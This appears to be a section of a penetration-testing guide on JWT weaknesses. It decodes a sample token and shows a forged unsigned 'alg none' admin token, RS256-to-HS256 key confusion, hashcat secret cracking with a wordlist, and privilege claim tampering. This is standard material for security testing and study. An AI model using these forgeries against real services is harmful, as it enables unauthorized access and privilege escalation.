 ### JWT (JSON Web Token) Testing

**JWT structure:**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

Part 1 (Header):    eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
Part 2 (Payload):   eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
Part 3 (Signature): SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```

**Decode JWT:**

```bash
# Decode using jwt_tool
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...

# Manual decode (base64)
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9" | base64 -d
# Output: {"alg":"HS256","typ":"JWT"}

echo "eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ" | base64 -d
# Output: {"sub":"1234567890","name":"John Doe","iat":1516239022}
```

**Common JWT vulnerabilities:**

```bash
# 1. Algorithm confusion (HS256 → None)
# Original header:
{"alg":"HS256","typ":"JWT"}

# Modified header:
{"alg":"none","typ":"JWT"}

# Modified token (no signature):
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0IiwibmFtZSI6ImFkbWluIiwiaXNfYWRtaW4iOnRydWV9.

# 2. Algorithm confusion (RS256 → HS256)
# Server expects RS256 (asymmetric)
# Send HS256 (symmetric) signed with public key

# 3. Weak secret brute-force
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt

# 4. Modify claims
# Original:
{"sub":"1234","name":"user","is_admin":false}

# Modified:
{"sub":"1234","name":"user","is_admin":true}

# Re-sign with cracked/weak secret
```
